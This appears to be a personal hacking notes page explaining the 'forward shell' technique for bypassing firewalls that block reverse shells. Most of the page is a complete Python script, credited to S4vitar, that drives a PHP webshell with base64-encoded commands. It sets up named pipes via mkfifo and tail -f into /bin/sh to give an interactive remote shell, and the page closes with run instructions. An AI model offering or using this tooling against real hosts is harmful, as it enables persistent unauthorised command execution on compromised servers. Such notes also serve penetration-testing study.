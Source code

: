 It is used when you detect a **firewall** and is imposible to strain any type of shell.
It use **named pipes** (Create a special file with unique name where many process can access and write or read information in them), this is using in the command [[Mkfifo]]

# Script python S4vitar

You can adapt this script in python to get the shell
https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py
```py
#!/usr/bin/python3

import requests, time, threading, pdb, signal, sys
from base64 import b64encode
from random import randrange

class AllTheReads(object):
        def __init__(self, interval=1):
                self.interval = interval
                thread = threading.Thread(target=self.run, args=())
                thread.daemon = True
                thread.start()

        def run(self):
                readoutput = """/bin/cat %s""" % (stdout)
                clearoutput = """echo '' > %s""" % (stdout)
                while True:
                        output = RunCmd(readoutput)
                        if output:
                                RunCmd(clearoutput)
                                print(output)
                        time.sleep(self.interval)

def RunCmd(cmd):
        cmd = cmd.encode('utf-8')
        cmd = b64encode(cmd).decode('utf-8')
        payload = {
                'cmd' : 'echo "%s" | base64 -d | sh' %(cmd)
                }
        result = (requests.get('http://127.0.0.1/cmd.php', params=payload, timeout=5).text).strip()
        return result

def WriteCmd(cmd):
        cmd = cmd.encode('utf-8')
        cmd = b64encode(cmd).decode('utf-8')
        payload = {
                'cmd' : 'echo "%s" | base64 -d > %s' % (cmd, stdin)
        }
        result = (requests.get('http://127.0.0.1/cmd.php', params=payload, timeout=5).text).strip()
        return result

def ReadCmd():
        GetOutput = """/bin/cat %s""" % (stdout)
        output = RunCmd(GetOutput)
        return output

def SetupShell():
        NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)
        try:
                RunCmd(NamedPipes)
        except:
                None
        return None

global stdin, stdout
session = randrange(1000, 9999)
stdin = "/dev/shm/input.%s" % (session)
stdout = "/dev/shm/output.%s" % (session)
erasestdin = """/bin/rm %s""" % (stdin)
erasestdout = """/bin/rm %s""" % (stdout)

SetupShell()

ReadingTheThings = AllTheReads()

def sig_handler(sig, frame):
        print("\n\n[*] Exiting...\n")
        print("[*] Removing files...\n")
        RunCmd(erasestdin)
        RunCmd(erasestdout)
        print("[*] All files have been deleted\n")
        sys.exit(0)

signal.signal(signal.SIGINT, sig_handler)

while True:
        cmd = input("> ")
        WriteCmd(cmd + "\n")
        time.sleep(1.1)
```

In the webshell (that is written in **php**) you **don't have to put pre-formatted labels** because the output will look bad.

You are playing with named pipes and [[Mkfifo]]

> mkfifo input; tail -f input | /bin/sh 2>&1 > output

To obtain the forward shell only you have to run the script

> python3 tty_over_http.py

This is not a tty, but you can [[Obtain tty - interactive console]]

-------

# Tags

#shell #forwardShell 

-----